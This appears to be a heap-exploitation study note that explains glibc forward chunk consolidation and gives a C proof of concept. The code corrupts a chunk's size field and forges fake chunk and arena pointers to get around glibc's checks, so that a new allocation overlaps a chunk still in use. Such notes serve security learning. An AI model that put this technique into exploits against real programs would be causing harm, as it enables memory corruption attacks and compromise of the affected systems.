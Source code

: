 <details>
<summary><strong>Description</strong></summary>
<p>

using forward consolidation to get overlapping memory...

chunk consolidation refers to when we free a chunk, that is next to an adjacent freed chunk (not present in the tcache/fastbin), and malloc will merge the two adjacent freed smaller chunks into one larger chunk. The purpose of this code is to show how we can consolidate a chunk we are currently freeing, into another allocated chunk...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {

    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *chunk2, *consolidated_chunk, *consolidated_chunk_end;

    chunk0 = malloc(0x20); // this chunk stored fake main_arena
    chunk1 = malloc(0x420);
    chunk2 = malloc(0x80); // foward consolidate chunk1 into chunk2

    /*VULNERABILITY*/
    chunk1[-1] = 0x471; // overwrite size of chunk1 extends into chunk2
    /*VULNERABILITY*/

    chunk2[7] = 0x21; // fake chunk's size

    // set up fake arena (there is no side effect, bins mechanics act normal, this is needed to bypass mitigations during consolidation)
    chunk2[8] = ((long)chunk0); // set our fwd/bk ptrs for our fake chunk to chunk0 (fake main_arena)
    chunk2[9] = ((long)chunk0);

    chunk0[2] = (long)&chunk2[6]; // set our fwd/bk ptrs for our fake main_arena to fake chunk
    chunk0[3] = (long)&chunk2[6];

    chunk2[10] = 0x20; // bypass prev_size check of the chunk after fake chunk (the chunk we're consolidating into)
    chunk2[11] = 0x30; // bypass size check of the chunk after fake chunk (the chunk we're consolidating into)

    free(chunk1); // trigger foward consolidation
    consolidated_chunk = malloc(0x480);

    printf("consolidated chunk: %p\n", consolidated_chunk);
    printf("consolidated chunk end: %p\n", consolidated_chunk + 0x480 + 0x10);
    printf("chunk2 (still allocated): %p\n", chunk2);
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/malloc/fwd_consolidation/readme.md
> i modified it a little (easier?)...

</p>
</details>